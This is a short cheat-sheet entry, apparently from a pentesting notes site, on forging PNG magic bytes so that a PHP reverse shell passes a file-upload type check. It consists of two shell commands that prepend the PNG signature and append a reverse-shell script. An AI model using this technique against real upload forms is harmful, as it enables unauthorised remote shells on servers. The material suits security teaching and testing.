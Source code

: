 ```yaml
---
title: "Magic Bytes"
date: 2024-7-2
tags: ["File Upload Vulnerability", "File Metadata", "File Carving", "Bypass", "Magic Bytes", "Png"]
---
```


### Forge File Signature

{{< tab set1 tab1 active >}}png{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
echo '89 50 4E 47 0D 0A 1A 0A' | xxd -p -r >> php-reverse-shell.php.png
```

```console
cat php-reverse-shell.php >> php-reverse-shell.php.png
```

{{< /tabcontent >}}
